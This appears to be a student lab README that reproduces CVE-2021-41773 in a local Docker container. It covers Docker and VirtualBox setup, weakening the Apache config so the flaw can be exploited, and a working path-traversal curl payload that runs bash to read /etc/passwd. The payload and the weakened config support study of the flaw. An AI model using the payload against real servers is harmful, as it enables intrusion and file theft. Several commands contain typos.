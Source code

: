 # Cybertaak - CVE-2021-41773

## Debian machine 

* maak virtuele machine met VirtualBox (Debian 11)
* Username: osboxes |   Password: osboxes.org

### install docker

* do update:

        sudo apt update

* install components:

        sudo apt-get install apt-transport-https ca-certificates curl gnupg

* get latest docker gpg key:

        wget https://download.docker.com/linux/debian/gpg

* save key:

        sudo apt-key add gpg

* add repo:

        echo "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable" | sudo tee -a /etc/apt/sources.list.d/docker.list

* do update again finally:

        sudo apt update

* install docker:

        sudo apt-get install docker-ce docker-ce-cli containerd.io

* check docker running status:

        sudo systemctl status docker

* check installed version:

        docker --version

### apache 2.4.49 

* install:

        sudo docker pull httpd:2.4.49

#### configuration

* run container:

        sudo docker run --name vuln-httpd -p 8080:80 -d httpd:2.4.49

* copy to /home/osboxes/.:

        sudo docker cp vuln-httpd:/usr/local/apache2/conf/httpd.conf .

* grep:

        grep -C4 -n "Require all denied" httpd.conf

* sed:

        sed "250s/denied/granted/" httpd.conf > httpd.new.conf

* copy new to old:

        sudo docker cp httpd.new.conf vuln-httpd:/usr/local/apache2/conf/httpd.conf

* restart container:

        sudo docker container restart vuln-httpd

* modify by hand:

        sudo nano httpd.conf

(change the line `Require all denied` to `Require all granted`)

#### configuration for RCE

* copy to /home/osboxes/.:

        sudo docker cp vuln-httpd:/usr/local/apache2/conf/httpd.conf .

* grep:

        grep -C4 -n "mod_cgi" httpd.conf

* sed:

        sed "184,187s/#//" httpd.conf > httpd.new.conf

* copy new to old:

        sudo docker cp httpd.new.conf vuln-httpd:/usr/local/apache2/conf/httpd.conf

* restart container:

        sudo docker container restart vuln-httpd

## Kali machine

* curl:

        curl -v 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"


## Automatisatie + VBoxManage

* List of existing VM's:

        BVoxManage list vms

* List of running VM's:

        VBoxManage list runningvms

* More details about running vm:

        VBoxManage lisr -l runningvms

### Create VM

* List of OS types:

        VBoxManage list ostypes

* create VM:

        VBoxManage createvm --name CyberSecTaakDebian --ostype Debian_64 --register

* info about VM:

        VBoxManage showvminfo CyberSecTaakDebian 

* configure VM:

        VBoxManage modifyvm CyberSecTaakDebian --cpus 2 --memory 2048 --vram 12

* grep memory info:

        VBoxManage showvminfo CyberSecTaakDebian | grep "Memory size"

* network setting:

        VBoxManage modifyvm CyberSecTaakDebian --nic1 bridged --brideadapter1 eth0

* create hd vdi:

        VBoxManage createhd --filename /C:/Users/User/Virtualbox VMs/CyberSecTaakDebian/CyberSecTaakDebian.vdi --size 5120 --variant Standard

* stockage controller:

        VBoxManage storagectl CyberSecTaakDebian --name "IDE Controller" --add ide --bootable on

* atache disk to controller:

        VBoxManage storageattach CyberSecTaakDebian --storagectl "IDE Controller" --port 0 --device 0 --type dvddrive --medium C:\Users\User\VirtualBox VMs\Debian_Server_Cyber_Taak\Debian 11 (64bit)

* start vm:

        VBoxManage startvm CyberSecTaakDebian